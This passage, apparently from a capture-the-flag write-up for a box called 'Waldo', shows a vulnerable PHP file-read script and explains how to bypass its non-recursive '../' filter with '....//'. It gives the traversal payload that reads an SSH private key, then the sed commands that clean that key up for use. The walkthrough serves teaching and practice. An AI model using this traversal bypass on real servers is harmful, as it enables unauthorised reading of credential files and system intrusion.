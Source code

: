 ![4.png]({{site.baseurl}}/Images/Waldo/4.png)

Going up again (`path=../..`) we do get a result, but interestingly as soon as we add another slash to make it `path=../../` we get dumped back in the web root directory.
![5.png]({{site.baseurl}}/Images/Waldo/5.png)

There has to be an input filter in the code that is messing with us. Time to switch to the `fileRead.php` file and see if we can figure out whats going on. `path=./fileRead.php` gets us the file:
```
<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n
```
Once we replace all the `\n`'s with new line characters and format the code a bit nicer we get the file:
```
<?php
if($_SERVER['REQUEST_METHOD'] === \"POST\"){
    $fileContent['file'] = false;
    header('Content-Type: application\/json');
    if(isset($_POST['file'])){
        header('Content-Type: application\/json');
        $_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);
        if(strpos($_POST['file'], \"user.txt\") === false){
            $file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");
            $fileContent['file'] = fread($file,filesize($_POST['file'])); 
            fclose();
        }
    }
    echo json_encode($fileContent);
}
```
Looks like it is replacing any `../` input with an empty string, now everything makes sense. Luckily for us the `str_replace()` function is not recursive, so we are able to craft the input with this in mind. Stepping through what the code will do, we can assume that the string `....//` will get the literal "../" removed leaving us with the string "../" which is exactly what we want. adding this a few times we can see that we are able to navigate around the box and read the root file system:
![6.png]({{site.baseurl}}/Images/Waldo/6.png)

After a bit of browsing we discover that there is an SSH private key on there that we are able to read with the value `file=../....//....//....//home/nobody/.ssh/.monitor` We are given a single line string which I have pasted the entire line into a file called `monitor.raw` We can then run some `sed` find and replace commands to clean up the file:
```
root@kali: cat monitor.raw | cut -d "\"" -f 4 | sed 's/\\n/\n/g' | sed 's/\\//g' > monitor.key
root@kali: chmod 600 monitor.key
```
To explain the commands: 
`sed 's/\\n/\n/g'` uses the substitue command `s/FIND/REPLACE` syntax to find the literal string `\n` (The first slash escapes the second so that it is not interpreted as a new line character) which we replace with the new line character `\n` and the `/g` on the end indicates that the find and replace should be applied globally, not just at the first occurance.
`sed 's/\\//g'` does the same thing, this time replacing all remaining single backslash characters with nothing, globally. These single backslashes exist to escape certain characters in the JSON that could otherwise be misinterpreted as JSON syntax.
